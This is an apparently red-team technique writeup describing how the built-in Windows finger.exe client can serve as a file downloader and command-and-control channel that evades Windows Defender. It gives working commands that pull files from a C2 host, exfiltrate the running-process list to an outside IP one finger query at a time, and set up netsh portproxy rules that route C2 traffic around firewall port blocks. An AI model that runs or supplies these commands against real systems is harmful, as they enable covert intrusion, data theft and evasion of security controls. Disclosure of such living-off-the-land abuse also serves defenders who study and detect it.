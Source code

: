 ```

Microsoft Windows TCPIP Finger Command "finger.exe" that ships with the OS, can be used as a file downloader and makeshift C2 channel.
Legitimate use of Windows Finger Command is to send Finger Protocol queries to remote Finger daemons to retrieve user information.
However, the finger client can also save the remote server response to disk using the command line redirection operator ">".

Intruders who compromise a computer may find it is locked down and "unknown" applications may be unable to download programs or tools.
By using built-in native Windows programs, its possible they may be whitelisted by installed security programs and allowed to download files.

Redteams and such using LOL methods have made use of "Certutil.exe", native Windows program for downloading files. However, Certutil.exe is
recently blocked by Windows Defender Antivirus and logged as event "Trojan:Win32/Ceprolad.A" when it encounters http/https://.

Therefore, using Windows finger we can bypass current Windows Defender security restrictions to download tools, send commands and exfil data.
The Finger protocol as a C2 channel part works by abusing the "user" token of the FINGER Query protocol "user@host". C2 commands masked as
finger queries can download files and or exfil data without Windows Defender interference.

Download files:
```
C:\> finger <C2-Command>@HOST > Malwr.txt
```

Exfil running processes:
```
C:\> for /f "tokens=1" %i in ('tasklist') do finger %i@192.168.1.21
```

Typically, (Port 79) default port used by FINGER protocol is often blocked by organizations. Privileged users can bypass this using
Windows NetSh Portproxy. This can allow us to bypass Firewall restrictions to reach servers using unrestricted ports like 80/443.
Portproxy queries are then sent first to the Local Machines ip-address which are then forwarded to the C2 server specified.

Port 43 (WHOIS) traffic.
```
netsh interface portproxy add v4tov4 listenaddress=[LOCAL-IP] listenport=79 connectaddress=[C2-Server] connectport=43
netsh interface portproxy add v4tov4 listenaddress=[LOCAL-IP] listenport=43 connectaddress=[LOCAL-IP] connectport=79
```

To display Portproxy use 
```
C:\>netsh interface portproxy show all
```

E.g. using Port 79
```
Ncat64.exe "nc@C2-Server" > tmp.txt
```

E.g. using Portproxy, send the query to local-ip first.
```
Ncat64.exe "nc@Local-IP" > tmp.txt
```

```